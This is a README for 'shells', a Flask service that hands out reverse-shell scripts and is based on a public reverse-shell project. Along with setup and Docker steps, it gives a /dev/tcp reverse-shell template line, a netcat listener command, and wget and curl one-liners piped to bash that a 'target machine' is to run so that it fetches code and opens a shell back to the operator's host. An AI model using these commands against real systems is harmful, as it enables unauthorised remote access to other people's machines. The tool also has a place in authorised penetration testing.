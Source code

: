 # shells
shells, based on [reverse-shell](https://github.com/lukechilds/reverse-shell).

## run
setup python environment
```bash
pipenv install
```

virtual environment and run
```bash
pipenv shell
flask run --port 8080 --host 0.0.0.0
```
or just run this
```
pipenv run flask run --port 8080 --host 0.0.0.0
```
### lazy run
change port and host in `__init__.py` file.
```
python3 app/__init__.py
```
## new command
add new command in `shells.template` specify the $host and $port, like below
```
if command -v sh > /dev/null 2>&1; then 
	/bin/sh -i >& /dev/tcp/$host/$port 0>&1
	exit;
fi
```

# give me a shell
Listen with netcat:
```
nc -lvp 1338
```

run this on target machine:
```
wget -qO- http://mi-ip-host:port/127.0.0.1:1338 | bash

curl http://mi-ip-host:port/127.0.0.1:1338 | bash
```


# docker
build the image
```
docker build -t shells .
```
run the docker container
```
docker run -p 8000:8000 shells
```
runtime details
```
docker ps
```
